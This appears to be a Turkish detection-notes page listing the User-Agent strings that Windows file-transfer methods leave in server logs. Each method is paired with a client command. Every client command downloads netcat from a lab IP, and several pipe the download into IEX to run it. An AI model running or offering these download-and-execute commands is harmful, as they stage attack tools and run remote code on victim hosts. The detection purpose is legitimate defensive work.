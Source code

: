 ```yaml
---
icon: material/circle-small
---
```


# Detection

HTTP istemcileri en kolay şekilde, sunucunun kendisine hangi HTTP istemcisinin (Firefox, Chrome vb.) bağlandığını tanımlamak için kullandığı User-Agent dizesi tarafından tanınır. User-Agent dizelerinin bir listesini [burada](http://useragentstring.com/pages/useragentstring.php) bulabilirsiniz.

Kötü amaçlı dosya aktarımları da User-Agent dizesi tarafından tanınabilir. Bu bölümde verilen User-Agent dizeleri yaygın HTTP aktarım tekniklerinden gözlemlenmiştir (Windows 10 ve PowerShell 5 ile test edilmiştir).

## Invoke-WebRequest - Client

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

## Invoke-WebRequest - Server

```text
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

## WinHttpRequest - Client

```powershell
$h = New-Object -ComObject WinHttp.WinHttpRequest.5.1; $h.open('GET', 'http://10.10.10.32/nc.exe', $false); $h.send(); IEX $h.responseText
```

## WinHttpRequest - Server

```text
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

## Msxml2 - Client

```powershell
$h = New-Object -ComObject Msxml2.XMLHTTP; $h.open('GET', 'http://10.10.10.32/nc.exe', $false); $h.send(); IEX $h.responseText
```

## Msxml2 - Server

```text
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

## Certutil - Client

```batch
certutil -urlcache -split -f http://10.10.10.32/nc.exe
```

## Certutil - Server

```text
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

## BITS - Client

```powershell
Import-Module BitsTransfer; Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:TEMP\t; $r = Get-Content $env:TEMP\t; Remove-Item $env:TEMP\t; IEX $r
```

## BITS - Server

```text
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```
